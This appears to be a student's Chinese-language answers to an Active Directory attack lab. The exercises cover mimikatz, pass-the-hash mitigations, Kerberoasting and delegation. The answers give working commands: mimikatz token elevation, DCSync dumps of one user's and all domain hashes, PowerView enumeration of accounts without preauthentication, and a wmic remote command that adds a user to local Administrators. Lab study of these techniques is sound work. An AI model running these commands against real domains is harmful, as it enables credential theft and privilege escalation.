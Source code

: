 1. mimikatz 执行"privilege::debug"和"token::elevate"的目的是什么？为什么需要执行它们？
```bash
privilege::debug - 提升为管理员权限
token::elevate - 伪造令牌，获得system权限或发现其他用户的令牌
```

2. 以 Bruce Lee 的身份登录 user1。使用您在上面学到的知识帮助 john 从内存中远程提取 Bruce Lee的 NTLM 哈希。
```bash
lsadump::dcsync /domain:wing.lab /user:bruce

dump所有数据
lsadump::dcsync /domain:wing.lab /all /csv
```

3. 如何尽可能的缓解PTH攻击，请讲清楚原因。
- 打上补丁kb2871997并且禁用SID=500的管理员用户
- 监控日志
4. 是否有可能（并且可行）完全禁用 NTLM？解释你的理由。
- 审查收到的NTLM流量：启用对所有帐户的审查
- 仅发送NTLMv2响应。拒绝LM＆NTLM

第四点我不太确定。
<a name="0lAMk"></a>
### Kerberos (Roasting)

1. 研究如何最好地减轻 kerberoasting 攻击。描述一下您认为最好的缓解技术，并解释其原因。
- 禁止用户开启`Do not require Kerberos preauthentication`
- 禁止弱口令
2. 还有一个用户会受到ASREP roasting影响，请找出来。

Get-DomainUser -PreauthNotRequired -Verbose<br />

3. 解释一下TGS vs. ASREP roasting

[https://www.4hou.com/posts/YVyM](https://www.4hou.com/posts/YVyM)<br />

<a name="XTgmG"></a>
### Kerberos (Delegation)

1. 在上面的练习中，您通过SMB和WMI获得了对服务器user的读取权限。现在试着通过这两个协议来执行代码。目标是执行以下命令，将用户john添加到本地管理组：
- psexec
```bash
wmic /node:user1 process call create "cmd.exe /c net localgroup Administrators john /add"
```


2. 尝试模拟域管理员用户Chuck Norris而不是“Bruce Willis。有什么作用？

可以攻击域控
<a name="L8Ylq"></a>
### ACL
acl攻击有哪些利用工具？

- github.com
<a name="ciC90"></a>
### 权限维持

- 自主学习这些权限维持的原理。
